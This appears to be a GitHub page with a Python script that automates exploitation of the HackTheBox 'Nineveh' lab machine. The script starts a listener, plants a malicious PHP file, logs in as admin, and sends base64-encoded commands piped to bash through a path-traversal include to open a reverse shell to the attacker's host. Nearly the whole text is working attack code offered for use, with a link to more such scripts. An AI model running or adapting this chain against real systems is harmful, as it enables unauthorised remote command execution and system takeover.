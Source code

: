 ```python
def getShell(rhost,payload):
    print(f"\n{BLUE}[+] SHELL: {YELLOW}Getting the SHELL! {BLUE}[+]{END}")
    payload = urllib.parse.quote(payload, safe='')
    url = f"http://{rhost}:80/department/manage.php?notes=/ninevehNotes/../var/tmp/0xEtern4lW0lf.php&cmd=echo {payload}|base64 -d | bash"
    headers = {"Upgrade-Insecure-Requests": "1"}
    r.get(url, headers=headers, cookies=r.cookies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser(description='HackTheBox Nineveh AutoShell - 0xEtern4lW0lf')
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port to receive the shell', required=True)

    args = parser.parse_args()

    rhost = args.target
    lhost = args.localip
    lport = args.localport

    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    loading(3)
    
    # Create the payload
    createPayload(lhost,lport)
    loading(3)
    
    # Create php file
    createEvilPHP(rhost)
    loading(3)

    # Login as admin
    loginAdmin(rhost)
    loading(3)

    # Get Reverse shell
    getShell(rhost,payload)
    loading(3)

if __name__ == '__main__':
    banner()
    main()
```

 More scripts in [https://github.com/0xEtern4lW0lf](https://github.com/0xEtern4lW0lf).